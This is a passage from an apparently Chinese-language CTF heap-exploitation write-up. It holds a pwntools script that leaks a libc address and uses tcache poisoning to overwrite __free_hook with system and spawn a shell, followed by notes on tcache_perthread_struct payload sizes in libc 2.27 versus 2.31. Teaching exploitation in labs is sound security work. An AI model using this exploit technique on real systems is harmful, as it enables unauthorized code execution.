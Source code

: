 ```
    p.sendafter('index', str(index))
    p.sendafter('content:', content)


def show(index):
    p.sendlineafter('&gt;', '4')
    p.sendafter('index', str(index))


def free(index):
    p.sendlineafter('&gt;', '3')
    p.sendafter('index', str(index))

message = "======================== LEAK HEAP ADDRESS ======================"
success(message)
for i in range(7):
    add(i, 0x80, 'a')

add(7, 0x80, 'b')

for i in range(7):
    free(i)

add(8, 0x10, 'protected')
free(7)
add(8, 0x40, '\n')
show(8)
libc = ELF(libc_path)
libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00')) - 138 - 0x10 - libc.sym['__malloc_hook']
log.success("LIBC:" + hex(libc_base))
__free_hook = libc_base + libc.sym['__free_hook']

message = "======================== TCACHE ATTACK ======================"
success(message)
system = libc_base + libc.sym['system']
edit(6, p64(__free_hook))

add(0, 0x80, 'hacker')
add(0, 0x80, p64(system))
add(0, 0x10, '/bin/sh\x00')
free(0)

p.interactive()
```

​ 最后谈一下libc2.27和libc2.31的一些小tips，当我们攻击tcache_perthread_struct时，很常见的一个做法就是来将其记录counts的区域全部覆盖填满，这样我们再次申请的chunk可逃逸出tcache，在libc2.27中counts[TCACHE_MAX_BINS]的类型为char，即在相应size的位置上记录数量的大小是一个字节，而在libc2.31中相应的类型为uint16_t，大小是两个字节，所以我们之前的payload通常是`b"\x07" * 0x40`（从trcache_perthread_struct的数据区开始填充），在libc2.31中，payload需要改写成`b"\x07" * 0x80`，因为大小多了一倍，也相应的需要增加padding。

[![](https://p3.ssl.qhimg.com/t0124c7d42dacc9a545.png)](https://p3.ssl.qhimg.com/t0124c7d42dacc9a545.png)

